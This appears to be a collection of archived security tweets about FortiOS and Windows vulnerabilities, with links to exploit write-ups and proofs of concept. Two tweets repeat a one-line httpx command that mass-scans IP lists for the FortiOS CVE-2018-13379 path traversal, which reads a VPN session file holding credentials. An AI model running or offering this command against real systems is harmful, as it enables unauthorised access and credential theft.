# TheMsterDoctor1
**https://twitter.com/TheMsterDoctor1/status/1677235726088323074 _at 2023-07-07, 08:38:53_**
<blockquote>
Title :- A path traversal vulnerability in the FortiOS SSL VPN web portal  CVE-2018-13379 🪲

 httpx -l ips.txt -path "/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession" -status-code -mc 200

#BugBounty #bugbountytip #bugbountytips #Hacking #CyberSecurity https://t.co/pKp3NHlAOt
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>112</code></td>
<td>Favorites: <code>387</code></td>
</tr></table>

---

# alone_breecher
**https://twitter.com/alone_breecher/status/1677230327796756481 _at 2023-07-07, 08:17:26_**
<blockquote>
Title :- A path traversal vulnerability in the FortiOS SSL VPN web portal  CVE-2018-13379 🪲

 httpx -l ips.txt -path "/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession" -status-code -mc 200

#BugBounty #bugbountytip #bugbountytips #Hacking #CyberSecurity https://t.co/ypA6wRMux1
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1675406465975083009 _at 2023-07-02, 07:30:03_**
<blockquote>
Patch analysis, vulnerability bug identification and exploit development for CVE-2022-34718 (Windows TCP/IP Remote Code Execution Vulnerability)
Excellent blog post by @chompie1337 

https://t.co/ZDEOVqM765 

#infosec #cybersecurity #cve #exploit https://t.co/eCN31pd7xo
</blockquote>

* https://securityintelligence.com/posts/dissecting-exploiting-tcp-ip-rce-vulnerability-evilesp/

<table><tr>
<td></td>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>336</code></td>
</tr></table>

---

# fdfalcon
**https://twitter.com/fdfalcon/status/1675177563923136513 _at 2023-07-01, 16:20:29_**
<blockquote>
RT @ricnar456: As promised, the research on CVE-2023-28252 is already published with its PoC and the detailed explanation of the reversing…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>95</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1674975690188267522 _at 2023-07-01, 02:58:18_**
<blockquote>
CVE-2023-27997, heapoverflow in FortiOS OS behind FortiGate firewalls that allows RCE. 490,000 affected SSL VPN interfaces are exposed online.

PoC
https://t.co/V6ObaPXyZa https://t.co/nFy9sjiCRy
</blockquote>

* https://bishopfox.com/blog/cve-2023-27997-exploitable-and-fortigate-firewalls-vulnerable

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>173</code></td>
<td>Favorites: <code>398</code></td>
</tr></table>

---

